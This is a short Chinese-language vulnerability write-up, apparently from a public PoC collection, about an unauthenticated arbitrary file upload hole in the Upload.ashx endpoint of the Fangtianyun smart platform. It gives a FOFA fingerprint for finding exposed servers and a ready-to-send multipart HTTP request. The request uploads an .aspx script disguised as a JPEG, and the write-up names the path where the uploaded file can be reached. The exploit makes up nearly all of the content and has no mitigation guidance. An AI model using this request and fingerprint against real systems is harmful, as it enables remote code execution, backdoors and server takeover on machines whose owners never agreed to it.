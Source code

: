 # 方天云智慧平台系统Upload.ashx存在任意文件上传漏洞

方天云智慧平台系统 Upload.ashx 接口处存在任意文件上传漏洞，未经身份验证的攻击者可通过该漏洞在服务器端任意执行代码，写入后门，获取服务器权限，进而控制整个 web 服务器。

## fofa

```java
body="AjaxMethods.asmx/GetCompanyItem"
```

## poc

```java
POST /Upload.ashx HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:128.0) Gecko/20100101 Firefox/128.0
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarySl8siBbmVicABvTX
Connection: close
 
------WebKitFormBoundarySl8siBbmVicABvTX
Content-Disposition: form-data; name="file"; filename="qwe.aspx"
Content-Type: image/jpeg
 
<%@Page Language="C#"%><%Response.Write("hello");System.IO.File.Delete(Request.PhysicalPath);%>
------WebKitFormBoundarySl8siBbmVicABvTX--
```

![img](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407311743390.png)

文件路径：`/UploadFile/CustomerFile/回显的路径`

![img](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407311744590.png)